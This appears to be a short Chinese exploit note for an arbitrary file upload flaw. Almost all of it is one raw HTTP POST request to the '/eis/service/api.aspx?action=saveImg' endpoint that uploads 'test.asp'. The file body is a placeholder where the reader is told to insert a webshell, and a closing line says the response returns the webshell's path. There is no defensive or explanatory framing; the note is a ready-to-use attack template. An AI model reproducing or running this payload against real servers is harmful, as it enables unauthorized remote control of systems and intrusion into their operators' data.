

POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: *.*.*.*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml, application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh; q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip,deflate
Connection:close
Cookie: ASP.NET_SessionId=jh3g1b45deo2ny55kmxl4355;Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Length: 483

-----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Disposition: form-data;name="file"filename="test.asp"
Content-Type:text/html

<% 此处放上你都jsp马%>
-----WebKitFormBoundaryZUtvHzp8FchbbUUn--

上传成功后返回webshell所在路径

